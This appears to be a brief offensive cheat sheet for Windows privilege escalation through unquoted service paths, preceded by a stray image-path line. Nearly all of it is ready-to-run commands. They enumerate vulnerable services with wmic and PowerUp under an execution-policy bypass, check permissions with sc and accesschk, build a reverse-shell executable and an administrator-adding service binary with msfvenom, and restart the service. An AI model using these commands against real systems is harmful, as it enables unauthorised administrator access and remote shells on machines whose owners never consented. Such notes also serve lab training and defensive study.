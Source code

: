 List services with spaces and missing quotes in binary path
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
```
Check permissions to the service
```
sc qc <SERVICE>
accesschk.exe /accepteula -uwdq <PATH>
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<TARGET_IP> LPORT=<PORT> -f exe -o rev.exe
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```
Start the service
```
net start <SERVICE>
start-service <SERVICE>
sc start <SERVICE>
```